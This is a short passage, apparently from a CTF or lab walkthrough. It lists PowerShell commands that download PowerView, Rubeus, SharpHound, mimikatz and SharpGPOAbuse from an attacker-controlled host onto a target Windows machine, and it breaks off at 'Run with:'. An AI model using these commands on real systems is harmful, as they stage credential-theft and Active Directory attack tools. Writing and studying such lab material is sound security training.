 
![image26](../resources/7b17d79f551645b894ef2d06a63dafe4.png)

- Upload Files (PowerView):

```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8080/PowerView.ps1', 'C:\Users\enterprise-security\Downloads\PowerView.ps1')
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8080/Rubeus.exe', 'C:\Users\enterprise-security\Downloads\Rubeus.exe')
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8080/SharpHound.exe', 'C:\Users\enterprise-security\Downloads\SharpHound.exe')
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8080/mimikatz.exe', 'C:\Users\enterprise-security\Downloads\mimikatz.exe')
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8080/SharpGPOAbuse.exe', 'C:\Users\enterprise-security\Downloads\SharpGPOAbuse.exe')

```
- Run with:
